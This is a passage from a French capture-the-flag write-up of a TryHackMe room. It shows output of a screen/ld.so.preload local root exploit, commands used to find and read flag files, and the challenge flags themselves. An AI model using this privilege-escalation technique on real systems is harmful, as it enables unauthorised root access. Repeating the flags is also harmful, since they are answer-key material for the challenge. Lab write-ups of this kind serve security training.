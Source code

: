 ```bash
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-ramen.

# whoami
root
```

On copie l'exploit dans la michine cible, on l'exécute.  

```bash
# cd /root/
# ls
flag  king.txt	koth
# cat flag
thm{9f1ee18d3021d135b03b943cc58f34db}
```

Dans le répertoire root on trouve un autre flag : thm{9f1ee18d3021d135b03b943cc58f34db}

```bash
# cd tryhackme
# ls
flag7  img  img.jpg
# cat flag7
thm{5a926ab5d3561e976f4ae5a7e2d034fe}

# cd /var
# cat flag.txt
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y a deux autres flags dans tryhackme et var.  

```bash
# find / -name *flag* -type f -exec grep -E "thm{" '{}' \; 2>/dev/null                                             
thm{9f1ee18d3021d135b03b943cc58f34db}
thm{5a926ab5d3561e976f4ae5a7e2d034fe}
thm{7baf5aa8491a4b7b1c2d231a24aec575}
thm{58a3cb46855af54d0660b34fd20a04c1}
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y une méthode plus simple pour avoir les flags si ont connais un morceau du flag.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://kothfood.thm:16109/
--2021-07-26 19:24:22--  http://kothfood.thm:16109/
Résolution de kothfood.thm (kothfood.thm)… 10.10.202.39
Connexion à kothfood.thm (kothfood.thm)|10.10.202.39|:16109… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : non indiqué [image/jpeg]
Sauvegarde en : « index.html »

index.html                                                      [ <=>                                                                                                                                      ] 372,38K  1,85MB/s    ds 0,2s    

2021-07-26 19:24:23 (1,85 MB/s) - « index.html » sauvegardé [381312]

tim@kali:~/Bureau/tryhackme/write-up$ file index.html 
index.html: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, baseline, precision 8, 1350x900, components 3

tim@kali:~/Bureau/tryhackme/write-up$ mv index.html image.jpg
```